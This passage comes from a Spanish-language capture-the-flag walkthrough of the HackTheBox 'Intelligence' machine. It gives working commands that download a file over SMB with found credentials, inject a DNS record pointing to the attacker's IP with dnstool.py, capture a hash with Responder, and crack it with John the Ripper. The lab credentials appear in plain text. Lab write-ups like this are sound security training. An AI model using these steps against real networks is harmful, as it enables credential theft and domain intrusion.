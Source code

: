 
```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download IT/downdetector.ps1
```


{:.note}
Es una tarea cron.


La idea es injentar un **dnsRecord** con la herramienta [dnstool.py] beemos tener user y pass con - r inyectamos dnsRecord y debe empesar poe web asi lo dice en el script -add para anadirlo y -d que es recordata que para que apunte ala ip del atacate osea la vpn para cuando el servidor tarmita la peticion ala web se redirija a la maquina atacante de la sigiente forma.


[dnstool.py]: https://github.com/dirkjanm/krbrelayx


```bash
python3 dnstool.py -u 'dc.inteligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webaxel -a add -t A -d 10.10.14.17 10.10.10.248
```


![list](/assets/img/intelligence/Kali-2022-09-10-02-33-00.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Debemos poner ala escucha el responde asi responder -I tun0 y eso hara lo demas.


Lo anterio nos da un hash el cual procedermos a crackear con `John The Ripper`.


![list](/assets/img/intelligence/Kali-2022-09-10-02-39-05.png){:.lead width="800" height="100" loading="lazy"}


[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[bloodhound-python]: https://github.com/fox-it/BloodHound.py
[gmsadumper]: https://github.com/micahvandeusen/gMSADumper